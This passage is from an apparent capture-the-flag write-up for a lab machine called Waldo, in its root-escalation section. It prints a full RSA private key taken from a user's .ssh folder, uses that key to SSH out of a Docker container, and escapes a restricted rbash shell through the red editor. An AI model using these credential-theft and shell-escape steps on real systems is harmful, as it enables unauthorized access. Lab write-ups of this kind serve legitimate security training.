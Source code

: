 ### 3.Getting root
We can find an interesting private key file in /home/monitor/.ssh 
{% highlight shell %}
waldo:~/.ssh$ cat .monitor 
-----BEGIN RSA PRIVATE KEY-----
MIIEogIBAAKCAQEAs7sytDE++NHaWB9e+NN3V5t1DP1TYHc+4o8D362l5Nwf6Cpl
mR4JH6n4Nccdm1ZU+qB77li8ZOvymBtIEY4Fm07X4Pqt4zeNBfqKWkOcyV1TLW6f
87s0FZBhYAizGrNNeLLhB1IZIjpDVJUbSXG6s2cxAle14cj+pnEiRTsyMiq1nJCS
dGCc/gNpW/AANIN4vW9KslLqiAEDJfchY55sCJ5162Y9+I1xzqF8e9b12wVXirvN
o8PLGnFJVw6SHhmPJsue9vjAIeH+n+5Xkbc8/6pceowqs9ujRkNzH9T1lJq4Fx1V
vi93Daq3bZ3dhIIWaWafmqzg+jSThSWOIwR73wIDAQABAoIBADHwl/wdmuPEW6kU
vmzhRU3gcjuzwBET0TNejbL/KxNWXr9B2I0dHWfg8Ijw1Lcu29nv8b+ehGp+bR/6
pKHMFp66350xylNSQishHIRMOSpydgQvst4kbCp5vbTTdgC7RZF+EqzYEQfDrKW5
8KUNptTmnWWLPYyJLsjMsrsN4bqyT3vrkTykJ9iGU2RrKGxrndCAC9exgruevj3q
1h+7o8kGEpmKnEOgUgEJrN69hxYHfbeJ0Wlll8Wort9yummox/05qoOBL4kQxUM7
VxI2Ywu46+QTzTMeOKJoyLCGLyxDkg5ONdfDPBW3w8O6UlVfkv467M3ZB5ye8GeS
dVa3yLECgYEA7jk51MvUGSIFF6GkXsNb/w2cZGe9TiXBWUqWEEig0bmQQVx2ZWWO
v0og0X/iROXAcp6Z9WGpIc6FhVgJd/4bNlTR+A/lWQwFt1b6l03xdsyaIyIWi9xr
xsb2sLNWP56A/5TWTpOkfDbGCQrqHvukWSHlYFOzgQa0ZtMnV71ykH0CgYEAwSSY
qFfdAWrvVZjp26Yf/jnZavLCAC5hmho7eX5isCVcX86MHqpEYAFCecZN2dFFoPqI
yzHzgb9N6Z01YUEKqrknO3tA6JYJ9ojaMF8GZWvUtPzN41ksnD4MwETBEd4bUaH1
/pAcw/+/oYsh4BwkKnVHkNw36c+WmNoaX1FWqIsCgYBYw/IMnLa3drm3CIAa32iU
LRotP4qGaAMXpncsMiPage6CrFVhiuoZ1SFNbv189q8zBm4PxQgklLOj8B33HDQ/
lnN2n1WyTIyEuGA/qMdkoPB+TuFf1A5EzzZ0uR5WLlWa5nbEaLdNoYtBK1P5n4Kp
w7uYnRex6DGobt2mD+10cQKBgGVQlyune20k9QsHvZTU3e9z1RL+6LlDmztFC3G9
1HLmBkDTjjj/xAJAZuiOF4Rs/INnKJ6+QygKfApRxxCPF9NacLQJAZGAMxW50AqT
rj1BhUCzZCUgQABtpC6vYj/HLLlzpiC05AIEhDdvToPK/0WuY64fds0VccAYmMDr
X/PlAoGAS6UhbCm5TWZhtL/hdprOfar3QkXwZ5xvaykB90XgIps5CwUGCCsvwQf2
DvVny8gKbM/OenwHnTlwRTEj5qdeAM40oj/mwCDc6kpV1lJXrW2R5mCH9zgbNFla
W0iKCBUAm5xZgU/YskMsCBMNmA8A5ndRWGFEFE+VGDVPaRie0ro=
-----END RSA PRIVATE KEY-----
{% endhighlight %}

By following command, we can get out of docker container as user "monitor".

{% highlight shell %}
waldo:~/.ssh$ ssh monitor@localhost -i .monitor
Linux waldo 4.9.0-6-amd64 #1 SMP Debian 4.9.88-1 (2018-04-29) x86_64
Last login: Tue Jul 24 08:09:03 2018 from 127.0.0.1

~~~

-rbash: alias: command not found
monitor@waldo:~$ 
{% endhighlight %}

Without doing something, even we can not do "cd".<br>
To bypass restricted shell, we can take advantage of red command.

{% highlight shell %}
monitor@waldo:~$ cd ../
-rbash: cd: restricted
monitor@waldo:~$ red
!'/bin/sh'
$ cd /
$ ls
bin   etc	  initrd.img.old  lost+found  opt   run   sys  var
boot  home	  lib		  media       proc  sbin  tmp  vmlinuz
dev   initrd.img  lib64		  mnt	      root  srv   usr  vmlinuz.old
$ 
{% endhighlight %}

Then, we can find a file which has weak permission (capability).

~~~